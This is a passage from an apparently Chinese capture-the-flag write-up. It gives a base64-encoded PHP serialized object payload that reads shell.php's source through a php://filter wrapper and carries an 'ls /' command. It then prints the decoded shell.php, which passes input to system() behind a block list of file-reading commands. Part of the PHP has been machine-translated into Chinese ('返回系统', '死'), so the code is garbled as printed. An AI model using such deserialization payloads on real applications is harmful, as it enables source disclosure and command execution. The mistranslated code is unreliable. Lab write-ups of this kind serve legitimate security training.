 ``

    
    
    1  
    

|

    
    
    Tzo0OiJHYW1lIjo3OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InBhc3N3b3JkIjtzOjU6ImFkbWluIjtzOjY6ImNob2ljZSI7TjtzOjg6InJlZ2lzdGVyIjtzOjU6ImFkbWluIjtzOjQ6ImZpbGUiO086NDoiT3BlbiI6MDp7fXM6ODoiZmlsZW5hbWUiO3M6NTQ6InBocDovL2ZpbHRlci9yZWFkPWNvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1zaGVsbCI7czo3OiJjb250ZW50IjtzOjQ6ImxzIC8iO30 =  
      
  
---|---  
  
`  
`

`执行payload读取到shell.php的源码base64编码：`

`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826084302.png)`

`解码得到shell.php的源码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12  
    

|

    
    
      
    function  shell ( $cmd ) { if (strlen( $cmd )< 10 ){ if (preg_match( '/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk |cut|grep|uniq|string|sed|rev|zip|\*|\?/' , $cmd )){ die ( "NO" );         } else {返回系统( $cmd );         }     } else {死（'这么久！'）;     } }  
          